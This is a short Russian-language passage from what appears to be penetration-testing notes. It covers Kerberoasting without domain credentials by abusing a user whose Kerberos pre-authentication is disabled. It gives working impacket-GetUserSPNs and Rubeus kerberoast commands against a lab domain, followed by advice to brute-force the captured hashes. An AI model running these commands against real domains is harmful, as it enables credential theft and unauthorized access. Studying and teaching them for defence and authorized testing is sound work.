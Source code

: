 ## Kerberoasting без наличия доступа к УЗ доменного пользователя

Как я и говорил выше, мы можем злоупотребить отключенной преаутентификацией пользователя для запроса TGS, не имея в своём арсенале доступа к какому-либо аккаунту. Делается это следующей командой:
`impacket-GetUsersSPNs -no-preauth "asrep-user" -usersfile user.txt -dc-ip "192.168.1.1" "TEST.local"/`
Здесь мы явно перебираем доменные УЗ, которые хранятся в файле user.txt. 

![](../../../Attachments/kerb13.png)

Повторяем процедуру с брутфорсом и радуемся, если пароль не слишком сильный :)

#### Локальный вариант проведения атаки, используя Rubeus
`Rubeus.exe kerberoast /outfile:file.txt /domain:"TEST.LOCAL" /dc:"DC_TEST.TEST.LOCAL" /nopreauth:"test_user" /spn:"test_user_spn"`

![](../../../Attachments/kerb14.png)